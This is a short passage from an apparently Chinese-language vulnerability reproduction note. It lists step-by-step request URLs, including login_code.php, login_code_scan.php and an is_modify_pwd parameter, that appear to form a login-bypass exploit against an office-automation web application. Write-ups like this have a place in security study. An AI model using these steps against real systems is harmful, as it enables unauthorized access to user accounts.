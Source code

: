 > 第三步：

```
http://www.0-sec.org/general/index.php?is_modify_pwd=1 
```

![image](../img/32ce636aa840c23af5f7ce2f211d0433.png)

### 第二种利用方法

> 第一步：

```
http://www.0-sec.org/ispirit/login_code.php 
```

![image](../img/9c498be8adc26a8fb3914ba259611037.png)

> 第二步：

```
http://www.0-sec.org/general/login_code_scan.php 
```

![image](../img/d9daa7846be80196ed0da94a54e38fd1.png)
